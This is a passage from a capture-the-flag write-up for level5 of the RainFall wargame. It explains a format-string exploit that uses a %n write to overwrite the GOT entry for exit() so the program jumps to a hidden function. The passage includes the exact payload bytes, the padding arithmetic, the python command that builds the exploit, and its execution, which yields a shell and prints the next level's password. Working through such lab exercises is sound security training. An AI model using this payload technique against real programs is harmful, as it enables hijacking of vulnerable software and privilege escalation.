 ### 13. Crafting the Exploit Payload
```bash
# Payload breakdown:
"\x38\x98\x04\x08"  # 4 bytes: GOT address for exit (little-endian)
"%134513824d"       # Print 134,513,824 decimal characters as padding  
"%4$n"              # Write total character count to address at position 4

# Mathematics:
# 4 (address bytes) + 134,513,824 (padding) = 134,513,828 total
# 134,513,828 decimal = 0x080484a4 hex = address of function o()
```

**Why %d instead of %c:**
- `%c` prints individual characters
- `%d` prints decimal numbers (can be padded to specific widths)
- `%134513824d` efficiently prints exactly 134,513,824 characters

## Exploitation Implementation

### 14. Creating the Exploit
```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
```

**Payload Explanation:**
- `\x38\x98\x04\x08`: Target address (0x8049838) in little-endian format
- `%134513824d`: Prints a number with 134,513,824 characters of padding
- `%4$n`: Writes the total character count (134,513,828) to the address at stack position 4

### 15. Memory State During Exploitation
```
Step 1: Our payload is placed in memory
Buffer: [0x38980408] [%134513824d%4$n...]
Stack position 4 contains: 0x8049838 (our target address)

Step 2: printf() processes the format string
- Prints 4 bytes of address data
- Processes %134513824d (prints massive padding)
- Total characters printed so far: 134,513,828

Step 3: %4$n executes the write
- Writes value 134,513,828 (0x080484a4) to address 0x8049838
- GOT entry for exit() now points to function o()!
```

### 16. Execute the Exploit
```bash
level5@RainFall:~$ (cat /tmp/exploit5; cat) | ./level5
# Note: This will take some time due to printing 134+ million characters
# Be patient - the padding output will scroll for a while...

[... extensive padding output ...]
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
